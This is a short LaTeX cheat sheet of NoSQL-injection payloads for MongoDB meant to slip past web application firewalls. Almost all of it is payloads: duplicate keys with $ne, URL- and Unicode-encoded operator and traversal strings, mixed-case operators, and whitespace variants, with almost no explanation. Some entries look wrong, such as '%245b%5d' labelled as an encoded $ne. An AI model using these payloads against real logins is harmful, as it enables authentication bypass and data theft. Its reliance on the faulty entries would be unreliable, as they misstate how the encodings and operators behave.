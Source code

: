 \documentclass[12pt]{article}
\begin{document}
\section{WAF and Bypassing Filters}

\subsection{Duplicate Key Precedence}

In MongoDB, if a document contains duplicate keys, only the last occurrence takes precedence.

\begin{lstlisting}
# Bypass WAF by adding duplicate keys
{"id":"10", "id":{"$ne":null}}
{"username":"guest", "username":{"$ne":"invalid"}, "password":"pass"}
\end{lstlisting}

\subsection{Alternative Encodings}

\begin{lstlisting}
# Unicode encoding
%uff0e%uff0e%uff0f
%c0%ae%c0%ae%c0%af

# URL encoding variations
%245b%5d   # $ne encoded
%24ne      # Partial encoding
\end{lstlisting}

\subsection{Case Manipulation}

\begin{lstlisting}
# Some parsers are case-insensitive
{"username": {"$NE": "invalid"}}
{"username": {"$nE": "invalid"}}
{"username": {"$Ne": "invalid"}}
\end{lstlisting}

\subsection{Whitespace Bypass}

\begin{lstlisting}
# Add whitespace characters
{"username":{"$ne": "invalid"},"password":"pass"}
{"username" : {"$ne" : "invalid"}, "password" : "pass"}
{"username":\t{"$ne":\n"invalid"}}
\end{lstlisting}
\end{document}
